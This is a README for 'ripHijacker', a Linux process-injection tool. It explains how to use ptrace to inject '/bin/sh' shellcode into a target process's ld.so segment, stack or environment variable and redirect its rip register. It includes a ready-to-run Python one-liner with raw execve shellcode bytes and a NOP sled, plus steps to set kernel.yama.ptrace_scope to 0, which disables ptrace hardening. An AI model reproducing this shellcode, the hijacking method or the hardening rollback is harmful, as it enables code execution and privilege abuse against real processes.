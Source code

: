 # ripHijacker
                       
 Usage: ./ripHijacker -p target_pid  [-z 0|1 [-e environment_variable -n target_program_name]]
 
-------------------------------------------------------------------------------------------------------------------------

./ripHijacker -p target_pid

..allows you to inject an hardcoded "/bin/sh" shellcode into the executable segment /lib/x86_64-linux-gnu/ld-2.19.so of the target and to overwrite its rip register with the address of that segment.
-------------------------------------------------------------------------------------------------------------------------

./ripHijacker -p target_pid -z 1

..allows you to inject an hardcoded "/bin/sh" shellcode into the stack of the target and to overwrite its rip register with the address pointed by its rsp register.
-------------------------------------------------------------------------------------------------------------------------

./ripHijacker -p target_pid -z 1 -e environment_variable -n target_program_name 

..allows you to overwrite the register rip of the target with the address of the environment variable (specified with -e option) in the target's stack.
-------------------------------------------------------------------------------------------------------------------------
We can load a simple shellcode in an environment variable with the command:

export A=$(python -c "print '\x90' * 20 + '\xeb\x1f\x5f\x48\x31\xc0\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xff\x48\x83\xc0\x7f\x48\x83\xc0\x2d\x0f\x05\xe8\xdc\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'")

ripHijacker uses ptrace. "A PTRACE scope of "0" is the more permissive mode.  A scope of "1" limits
PTRACE only to direct child processes", so we can change scope of ptrace with these commands:

sudo vim  /etc/sysctl.d/10-ptrace.conf

..and setting.. 

kernel.yama.ptrace_scope = 0

..after that we must load the new settings with:

sudo sysctl --system -a -p | grep  yama

Obviously, to use '-z 1' option the target program must be compiled with the "-z execstack" option and to use -e and -n options the environment variable must be loaded before the program target execution.

Acknowledgment:

  Vorrei ringraziare Fabio Blacklight ed il suo vecchio ma geniale programma meminj.c che mi ha permesso di venire a 
  conoscenza dell'utilità di ptrace ed anche Crossbower che mi ha dato l'idea su come effettuare l'attacco ld_inj




